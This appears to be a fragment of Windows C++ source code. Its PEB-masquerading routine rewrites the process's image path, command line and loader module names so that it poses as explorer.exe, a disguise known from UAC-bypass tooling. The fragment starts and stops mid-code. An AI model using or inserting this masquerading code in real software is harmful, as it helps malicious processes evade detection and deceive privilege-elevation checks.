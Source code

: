 ```cpp
		RtlInitUnicodeString(&DataTableEntry->FullDllName, g_lpszExplorer2);
		RtlInitUnicodeString(&DataTableEntry->BaseDllName, L"explorer.exe");
		*StopEnumeration = TRUE;
	}
	else {
		*StopEnumeration = FALSE;
	}
}

__inline struct _PEB * NtCurrentPeb() { return NtCurrentTeb()->ProcessEnvironmentBlock; }

VOID supMasqueradeProcess(
	VOID
	)
{
	NTSTATUS Status;
	PPEB    Peb = NtCurrentPeb();
	SIZE_T  RegionSize;

	PVOID g_lpszExplorer = NULL;
	RegionSize = 0x1000;

	Status = NtAllocateVirtualMemory(
		NtCurrentProcess(),
		&g_lpszExplorer,
		0,
		&RegionSize,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_READWRITE);

	if (NT_SUCCESS(Status)) {	
		RtlEnterCriticalSection(Peb->FastPebLock);

		RtlInitUnicodeString(&Peb->ProcessParameters->ImagePathName, g_lpszExplorer2);
		RtlInitUnicodeString(&Peb->ProcessParameters->CommandLine, g_lpszExplorer2);
		RtlInitUnicodeString(&Peb->ProcessParameters->CurrentDirectory.DosPath, L"C:\\windows\\system32");


		RtlLeaveCriticalSection(Peb->FastPebLock);

		LdrEnumerateLoadedModules(0, &supxLdrEnumModulesCallback, (PVOID)Peb);
	}
}



int _tmain(int argc, _TCHAR* argv[])
{
	HINSTANCE hinstStub = GetModuleHandle(_T("ntdll.dll"));
	if(hinstStub) 
	{
		RtlInitUnicodeString = (LPRTLINITUNICODESTRING)GetProcAddress(hinstStub, "RtlInitUnicodeString");
		if (!RtlInitUnicodeString) 
		{
			printf("Could not find RtlInitUnicodeString entry point in NTDLL.DLL");
			exit(0);
		}

		RtlEnterCriticalSection = (LPRTLENTERCRITICALSECTION)GetProcAddress(hinstStub, "RtlEnterCriticalSection");
		if (!RtlEnterCriticalSection) 
```